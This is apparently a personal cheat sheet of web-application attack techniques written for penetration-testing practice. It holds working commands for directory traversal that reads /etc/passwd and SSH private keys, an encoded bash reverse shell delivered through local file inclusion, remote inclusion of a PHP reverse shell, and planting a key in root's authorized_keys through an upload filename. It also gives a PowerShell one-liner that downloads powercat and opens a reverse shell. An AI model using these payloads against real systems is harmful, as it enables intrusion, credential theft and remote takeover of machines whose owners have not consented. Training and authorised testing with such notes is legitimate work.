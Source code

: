 # Directory traversal

- Get username 
    
    ``` /etc/passwd ```

- Exploit directory traversals: Get ssh key

    ``` /home/{username}/.ssh/id_rsa
    vim key
    chmod 400 dt_key
     ```
    
-  Window: 
   ``` C:\Users\All Users\ssh\ssh_host_rsa_key.pub  ```

- Encoding special character
    
    e.g. . -> %2f 

- cgi-bin vuln

- Encoding not a must

# File Inclusion Vuln

- Loading a file and attach CMD

- Reverse shell & web shell

## Local File Inclusion LFI
- Less common
- Header poison URL may differs from Log Poisoning 
- TCP reverse shell one-liner
  ``` bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 ```
### WAF?
1. Only Local host:
- Try adding ``` X-Forwarded-For: 127.0.0.1 ```

## RFI
- Least common (LFI > RFI)
- Host a web server for exposing exploit php 
  
  e.g. php-reverse-shell.php

  ``` python3 -m http.server 80 ```
- open reverse shell server

    ``` nc -lvnp 4444 ```
- RFI request to the website
  
  ``` ?page=http://{ip}/php-reverse-shell.php ```

# File Upload Vuln
 
## w/ Executable Files
- Prepare a file that can run CMD
- Reverse shell
- file type exclusion e.g. php -> pHP
- aspx -> mspx  


## w/o Executable Files
- Generate SSH key 

    ``` ssh-keygen ```

- Directory traversal for http request header
  
    Edit filename

    ``` ../../../../../root/.ssh/authorized_keys ``` : storing ``` 

- Becareful have to remove ```.ssh/known_hosts``` in kali pc since different section computer

- run ``` ssh -i fileup root@{ip} ```

# OS Cmd injection

- Check which command is allow which is not, then use ``` & ``` to piggyback it


- Windows oneliner get vuln file & reverse shell
``` IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell  ```

- exploitable could be ``` ;  && ```
- remember to encode url sometimes
